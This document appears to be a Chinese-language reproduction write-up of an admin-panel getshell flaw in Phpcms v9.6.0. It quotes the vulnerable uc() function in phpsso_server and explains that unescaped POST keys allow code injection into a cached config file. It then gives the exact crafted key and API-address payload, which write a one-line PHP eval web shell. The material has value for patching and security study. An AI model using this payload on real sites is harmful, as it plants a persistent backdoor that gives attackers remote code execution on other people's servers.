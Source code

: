 # Phpcms v9.6.0后台getshell

### 一、漏洞简介

phpsso_server 后台getshell

### 二、漏洞影响

Phpcms v9.6.0

### 三、复现过程

漏洞来自于ROOTDIR/phpsso_server/phpcms/modules/admin/system.php


```php
public function uc() {
        if (isset($_POST['dosubmit'])) {
            $data = isset($_POST['data']) ? $_POST['data'] : '';
            $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
            $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
            $config = include $filepath;
            $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
            foreach ($data as $k => $v) {
                $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                $new[] = "'$k'=>'$v',";
                $uc_config .= "define('".strtoupper($k)."', '$v');\n";
            }
            $html = file_get_contents($filepath);
            $html = str_replace($old, $new, $html);
            $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
            @file_put_contents($uc_config_filepath, $uc_config);
            @file_put_contents($filepath, $html);
            $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
            showmessage(L('operation_success'), HTTP_REFERER);
        }
        $data = array();
        $r = $this->db->get_one(array('name'=>'ucenter'));
        if ($r) {
            $data = string2array($r['data']);
        }
        include $this->admin_tpl('system_uc');
    }
```

来自这段中的


```php
$data = isset($_POST['data']) ? $_POST['data'] : '';
```

和


```php
foreach ($data as $k => $v) {
$old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
$new[] = "'$k'=>'$v',";
$uc_config .= "define('".strtoupper($k)."', '$v');\n";
}
```

这里接收`post['data']`数据中的key，value并写入配置文件ROOTDIR/phpsso_server/caches/configs/uc_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中


```php
public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }
```

全局过滤了post，但是这里只过滤了value，并没有过滤key

![](images/15892026904257.png)


这个地方，我们可以构造


```php
name="data[uc_api','11');/*]"
```

并在Ucenter api 地址输入:


```php
*/eval($_REQUEST[test]);//
```

再进行缓存更新

![](images/15892027146292.png)


就成功写入了一句话

![](images/15892027212781.png)


![](images/15892027250922.png)


